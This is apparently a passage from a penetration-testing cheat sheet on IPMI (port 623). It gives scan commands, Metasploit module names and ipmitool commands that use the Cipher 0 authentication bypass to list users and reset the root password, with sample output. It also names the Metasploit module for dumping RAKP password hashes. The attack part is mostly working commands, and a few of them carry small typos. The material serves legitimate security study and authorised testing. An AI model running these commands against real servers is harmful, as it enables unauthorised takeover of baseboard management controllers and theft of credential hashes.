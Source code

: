 ![](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (It's usually on UDP but it could also be running on TCP)

### Enumeration

#### Discovery

```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```

You can **identify** the **version** using:

```bash
use auxiliary/scanner/ipmi/ipmi_version
```

#### Vulnerability - IPMI Authentication Bypass via Cipher 0

Dan Farmer [identified a serious failing](http://fish2.com/ipmi/cipherzero.html) of the IPMI 2.0 specification, namely that cipher type 0, an indicator that the client wants to use clear-text authentication, actually **allows access with any password**. Cipher 0 issues were identified in HP, Dell, and Supermicro BMCs, with the issue likely encompassing all IPMI 2.0 implementations.\
Note that to exploit this issue you first need to **find a valid user**.

You can **identify** this issue using:

```
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

And you can **abuse** this issue with `ipmitool`:

```bash
apt-get install ipmitool #Install
#Using -C 0 any password is accepted
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list #Use Cipher 0 to dump a list of users
ID  Name      Callin  Link Auth   IPMI Msg   Channel Priv Limit
2   root             true    true       true       ADMINISTRATOR
3   Oper1            true    true       true       ADMINISTRATOR
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 #Change the password of root
```

#### Vulnerability - IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval

Basically, **you can ask the server for the hashes MD5 and SHA1 of any username and if the username exists those hashes will be sent back.** Yeah, as amazing as it sounds. And there is a **metasploit module** for testing this (you can select the output in John or Hashcat format):

```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
